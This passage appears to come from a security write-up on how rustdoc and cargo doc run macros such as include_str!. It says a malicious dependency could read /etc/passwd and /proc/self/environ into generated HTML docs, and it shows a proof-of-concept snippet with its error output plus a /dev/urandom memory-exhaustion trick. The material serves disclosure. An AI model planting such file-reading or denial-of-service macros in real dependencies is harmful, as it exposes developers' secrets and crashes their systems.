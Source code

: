 When running `cargo doc` from the `myapp` project folder it will create HTML documentation for our project. 
The documentation will contain a section about `evildependency`. Once a web browser openes this HTML page, the Javascript code will be executed and the previously stored contents of `/etc/passwd` and `/proc/self/environ` will be visible.

## Reality: both `rustdoc` and `cargo doc` execute macros

Put example code into `main.rs` and run `rustdoc main.rs`. There is no documentation syntax used, the `private_no_docs()` function is unreachable code, it will never be called by `main()`. 

```rust
fn private_no_docs() { 
  let nobody_ever_uses_this = include_str!("/etc/passwd-FILE_DOES_NOT_EXIST");
}

fn main() {}
```

Both `rustdoc` and `cargo doc` will execute the `include_str!()` macro even though it is in an ***unreachable*** part of the code. They'll try to open the non-existing file `/etc/passwd-FILE_DOES_NOT_EXIST` and throw a big error. `cargo doc` will happily execute this code even if it is hidden somewhere in a dependency.

```
 $ cargo doc
 Documenting evildependency v0.1.0 (./cargo-rustdoc/evildependency)
    Checking evildependency v0.1.0 (./cargo-rustdoc/evildependency)
error: couldn't read `/etc/passwd-FILE_DOES_NOT_EXIST`: No such file or directory (os error 2)
 --> ./cargo-rustdoc/evildependency/src/lib.rs:8:31
  |
8 |   let nobody_ever_uses_this = include_str!("/etc/passwd-FILE_DOES_NOT_EXIST");
  |                               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  |
  = note: this error originates in the macro `include_str` (in Nightly builds, run with -Z macro-backtrace for more info)

error: could not document `evildependency`
warning: build failed, waiting for other jobs to finish...
error: could not compile `evildependency` (lib) due to 1 previous error
```

This is unexpected for a software with the task of parsing documentation strings.



## Reality: `rustdoc` fills up all memory

The examples in `rustdoc_out_of_memory_{1,2}.rs` document how an infinite-size file such as `/dev/urandom` can be used for a Denial of Service (DOS) attack, with `rustdoc` taking up all system memory before the kernel will force-evict and crash the process. 

```rust
#[doc = include_str!("/dev/urandom")]
pub trait foo {}
```

